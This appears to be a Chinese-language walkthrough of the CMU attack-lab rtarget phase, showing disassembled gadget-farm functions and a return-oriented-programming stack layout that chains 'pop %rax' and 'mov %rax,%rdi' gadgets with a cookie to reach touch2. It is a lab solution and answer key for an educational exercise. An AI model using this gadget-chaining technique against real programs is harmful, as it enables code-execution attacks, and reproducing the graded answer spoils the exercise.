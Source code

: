 ```assembly
0000000000000035 <setval_424>:
  35:	f3 0f 1e fa          	endbr64 
  39:	c7 07 54 c2 58 92    	movl   $0x9258c254,(%rdi)
  3f:	c3                   	retq   

0000000000000040 <setval_470>:
  40:	f3 0f 1e fa          	endbr64 
  44:	c7 07 63 48 8d c7    	movl   $0xc78d4863,(%rdi)
  4a:	c3                   	retq   

000000000000004b <setval_426>:
  4b:	f3 0f 1e fa          	endbr64 
  4f:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  55:	c3                   	retq   

0000000000000056 <getval_280>:
  56:	f3 0f 1e fa          	endbr64 
  5a:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  5f:	c3                   	retq   

0000000000000060 <mid_farm>:
  60:	f3 0f 1e fa          	endbr64 
  64:	b8 01 00 00 00       	mov    $0x1,%eax
  69:	c3                   	retq  
```

有意识的搜索%rdi这个寄存器相关的机器指令`48 89 c7`,搜索和%rax有关的`58`,便注意到这两个函数,<addval_273>和<addval_219>,在rtarget的反汇编中把他找出来(这样能找到地址)

```
00000000004019a0 <addval_273>:
  4019a0:	8d 87 48 89 c7 c3    	lea    -0x3c3876b8(%rdi),%eax
  4019a6:	c3                   	retq   

00000000004019a7 <addval_219>:
  4019a7:	8d 87 51 73 58 90    	lea    -0x6fa78caf(%rdi),%eax
  4019ad:	c3                   	retq   
```

当273>函数从0x004019a2开始时,会执行`mov %rax,%rdi`,`ret`

当219>函数从0x004019ab开始时,会执行`pop %rax`,`ret`.

这样我们不就可以组合出我们的代码了吗,通过一个一个ret来吧不同的gadget连接在一起

答案框架如下,

```
---栈底---
0x4017ec    <---touch2地址
0x4019a2    <--gadget2
cookie            #0x59b997fa   <----%rsp
 0x4019ab     <---gadget1
---栈顶---
```
